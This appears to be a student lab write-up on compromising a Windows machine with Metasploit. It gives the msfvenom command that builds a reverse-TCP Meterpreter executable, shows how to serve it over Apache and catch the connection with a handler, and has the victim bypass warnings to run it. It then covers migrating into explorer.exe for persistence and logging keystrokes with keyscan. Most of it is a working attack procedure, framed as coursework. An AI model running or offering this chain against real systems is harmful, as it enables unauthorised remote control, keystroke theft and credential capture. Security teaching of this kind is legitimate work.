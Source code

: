 ### Date:
# Ex-6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
#### Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:

![1)](https://github.com/user-attachments/assets/ca6c03c1-69bf-4509-bc99-59d9188f3fb3)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT

![2)](https://github.com/user-attachments/assets/983bfb0e-ed12-4c64-a053-5cae4c4d2502)


copy the fun.exe into the apache /var/www/html folder

![3)](https://github.com/user-attachments/assets/94d253ce-5cd1-4fbc-a2c0-e73af02f901d)


Start apache server
sudo systemctl apache2 start

![4)](https://github.com/user-attachments/assets/81c96445-856e-458f-a89c-7cb867e4671e)

Check the status of apache2

![5)](https://github.com/user-attachments/assets/04fc89b9-b017-4f57-9abc-ab7c85966512)

Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6)](https://github.com/user-attachments/assets/f671f4bb-baec-4e82-abf9-9c4dc0ee9747)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![7)](https://github.com/user-attachments/assets/63f77a03-6743-4403-b00f-5234d648a5a9)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
